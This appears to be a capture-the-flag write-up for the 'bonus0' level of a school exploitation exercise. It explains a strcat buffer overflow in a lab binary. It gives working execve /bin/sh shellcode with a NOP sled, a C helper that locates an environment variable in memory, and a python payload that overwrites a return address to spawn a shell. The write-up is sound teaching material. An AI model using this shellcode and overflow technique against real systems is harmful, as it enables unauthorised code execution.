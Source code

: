 # Bonus0

Let's see to the binary

![](/Users/a19523132/school/Rainfall/bonus0/Ressources/img/bonus0_launch.png)

Seem, this program waits two strings as input and prints them. Let's use [gdb](Ressources/gdb.md) to understand what's going on. 

We can see that this program is using `strcat` known for its overflow overruns.

For this exploit, we need:

1. Tinkering a [Shellcode](https://en.wikipedia.org/wiki/Shellcode) and get its address 
2. Find the offset of one buffer to inject it = 9 bytes

> It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, 
> but any piece of code that performs a similar task can be called shellcode.

Let's get the shellcode from [this article](https://0xrick.github.io/binary-exploitation/bof5/)

export SHELLCODE=`python -c 'print("\x90" * 1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`

Using a lot of `NOP` instructions before the Shellcode helps us to consistently find it even if the environment address shifts 
a bit as `NOP` instruction will only indicate to go to the next one until we find the first "real" instruction.

Then, we'll need to find where this environment variable is stored in memory. For that we can use:

    #include <cstdio>
    #include <cstdlib>
    
    int main(int ac, char** av)
    {
        printf("env address at %p\n", getenv(av[1]));
        return (0);
    }

Using this program with SHELLCODE as parameter will output where this environment variable is stored in memory

Now all we have to do is filling up the first buffer with `4096` bytes, shift `9` bytes into the second one, 
input the address of the Shellcode and fill the remaining space with junk (`7` bytes) to get a shell

`(python -c "print '\x90' * 4095 + '\n' + '\x90' * 9 + '\xXX\xXX\xXX\xXX'[::-1] + '\x90' * 7"; cat) | ./bonus0`

![](/Users/a19523132/school/Rainfall/bonus0/Ressources/img/bonus1.png)
